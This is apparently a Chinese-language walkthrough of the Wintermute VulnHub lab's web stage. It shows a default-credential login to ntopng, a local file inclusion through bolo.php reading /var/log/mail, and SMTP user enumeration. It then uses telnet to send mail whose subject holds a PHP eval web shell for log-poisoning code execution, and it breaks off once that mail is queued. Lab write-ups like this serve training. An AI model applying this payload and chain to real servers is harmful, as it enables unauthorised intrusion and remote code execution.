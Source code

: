 ## web

3000端口是Apache Hadoop ntopng服务，监测网路流量

默认密码`admin:admin`登录成功

![image-20250120174412785](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20250120174412785.png)

发现访问本地http服务，路径：/turing-bolo/ 

观察url发现，可能存在文件包含漏洞，尝试了`passwd,hosts`等文件是失败的

根据扫描结果知道存在smtp服务的，可以看一下/var/log/mail文件

http://192.168.56.102/turing-bolo/bolo.php?bolo=/var/log/mail

成功包含

利用`smtp-user-enum`工具进行操作

```shell
┌──(kali㉿kali)-[~/vulnhub/Wintermute-Lab]
└─$ smtp-user-enum -M VRFY -u root -t 192.168.56.102
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Target count ............. 1
Username count ........... 1
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Mon Jan 20 04:51:48 2025 #########
192.168.56.102: root exists
######## Scan completed at Mon Jan 20 04:51:48 2025 #########
1 results.

1 queries in 1 seconds (1.0 queries / sec)
```

发现日志文件有增加，可以尝试日志包含RCE

使用telnet发送恶意邮件，在邮件主题中包括一些php代码

```
root@kali:~# telnet 192.168.56.102 25
Trying 192.168.56.102...
Connected to 192.168.56.102.
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
HELO hack.com
250 straylight
MAIL FROM: hacker@hack.com
250 2.1.0 Ok
RCPT TO: wintermute
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
subject: <?php eval($_REQUEST['1']); ?>
hacked!!
.
250 2.0.0 Ok: queued as EC8E454D7
quit
```